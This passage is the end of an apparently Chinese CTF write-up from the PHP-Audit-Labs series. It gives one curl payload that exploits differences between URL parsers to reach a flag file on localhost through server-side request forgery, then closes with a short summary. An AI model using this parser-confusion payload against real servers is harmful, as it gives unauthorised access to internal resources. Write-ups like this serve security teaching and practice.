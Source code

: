![23](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day13-16/files/23.png)

我们可以利用URL解析器之间的差异处理，构造如下 **payload** ：

```bash
curl -d "url=http://foo@localhost:80@www.freebuf.com/flag.php" "http://题目IP/"
```

![24](CTF%20总结/PHP-Audit-Labs/PHP-Audit-Labs题解/Day13-16/files/24.png)

## 总结

我们的项目会慢慢完善，如果大家喜欢可以关注 [ **PHP-Audit-Labs** ](https://github.com/hongriSec/PHP-Audit-Labs) 。大家若是有什么更好的解法，可以在文章底下留言，祝大家玩的愉快！